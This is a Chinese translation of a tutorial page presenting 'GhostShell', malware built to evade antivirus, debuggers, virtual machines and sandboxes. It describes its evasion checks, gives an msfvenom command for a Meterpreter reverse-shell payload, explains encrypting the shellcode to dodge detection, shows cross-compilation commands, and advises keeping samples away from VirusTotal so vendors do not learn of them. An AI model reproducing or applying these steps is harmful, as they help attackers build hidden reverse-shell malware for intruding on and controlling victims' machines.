

# GhostShell:防病毒旁路技术和反反汇编无法检测的恶意软件

> 原文：<https://kalilinuxtutorials.com/ghostshell/>

**GhostShell** 是一款不可检测的恶意软件，具有 AV 旁路技术、反反汇编等。在这种恶意软件中，使用了一些技术来尝试绕过 AVs、虚拟机和沙箱，只是希望了解更多。我不对你的行为负责。

**注意！！！**

要检查防病毒软件是否检测到恶意软件，请不要将其发送给 virustotal，它将被发送给防病毒公司并被破解，要进行分析，请将其发送给[https://www.hybrid-analysis.com/](https://www.hybrid-analysis.com/)，并记住选中“不要将我的样本发送给非附属第三方”选项，如下例所示。

**又读——[法拉第:协同渗透测试&漏洞管理平台](https://kalilinuxtutorials.com/faraday/)**

**旁路技术**

*   **反调试器**:为了尝试绕过调试器，我使用“Windows.h”函数库的“IsDebuggerPresent()”来检查调试器是否正在运行。
*   **反虚拟机/反沙盒/反反病毒**
    *   **枚举进程函数**枚举系统上运行的所有进程，并与黑名单中的进程进行比较，如果发现一个进程，且该进程等于黑名单中的任何进程，则返回-1(已识别)。
    *   **睡眠加速检查功能**先获取当前时间，睡眠 2 分钟，然后，再次获取时间，比较，如果差值小于 2，返回-1(已识别)。
    *   **mac 地址检查功能**获取系统 mac 地址，并与黑名单中的 mac 进行比较，如果系统 Mac 地址等于黑名单中的任何 Mac，则返回-1(已识别)。

**生成外壳代码**

要在终端中生成 shellcode 类型:`**msfvenom -p windows/meterpreter/reverse_shell lhost=(IP) lport=(PORT) -f c**`，复制生成的 shellcode 并加密。

*   若要加密外壳代码，请使用 encrypt_shellcode 脚本。
    *   在 linux 上类型:`**./encrypt_shellcode e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(shellcode)""**`
    *   在 windows 上键入:`**encrypt_shellcode.exe e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(YOUR_SHELLCODE)""**`

**如何在 Linux 上为 Windows 编译？**

要在 Linux 上编译 Windows，首先安装 mingw-w64: `**sudo apt-get install mingw-w64**`，然后编译 32 位:`**i686-w64-mingw32-gcc -o main.exe main.c -l psapi -static**`，64 位:`**x86_64-w64-mingw32 -o main.exe main.c -l psapi -static**`

[**Download**](https://github.com/ReddyyZ/GhostShell)